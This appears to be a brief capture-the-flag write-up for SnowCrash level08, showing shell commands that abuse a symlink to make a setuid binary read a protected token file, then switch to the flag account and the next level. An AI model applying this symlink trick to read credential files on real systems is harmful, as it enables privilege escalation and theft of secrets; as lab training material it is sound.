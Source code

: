 # level08

Symlink permission abuse
```bash
level08@SnowCrash:~ $ ln -fs $HOME/token /tmp/test; ./level08 /tmp/test/
level08@SnowCrash:~ $ su flag08
#OUTPUT
level08@SnowCrash:~ $ getflag
#OUTPUT
level08@SnowCrash:~ $ su level09
#OUTPUT
level09@SnowCrash:~ $
```
